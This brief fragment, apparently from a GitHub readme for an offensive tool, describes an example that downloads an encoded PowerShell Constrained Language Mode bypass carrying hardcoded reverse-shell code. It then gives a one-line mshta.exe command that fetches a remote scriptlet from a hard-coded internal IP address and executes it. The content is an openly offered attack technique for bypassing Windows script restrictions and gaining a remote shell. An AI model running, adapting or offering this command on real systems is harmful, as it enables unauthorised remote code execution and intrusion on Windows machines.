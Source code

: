 The example downloads an encoded CLM bypass and installs it. The CLM bypass has hardcoded PowerShell to open a reverse shell.
The run the SCT file remotely, run:
`/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();`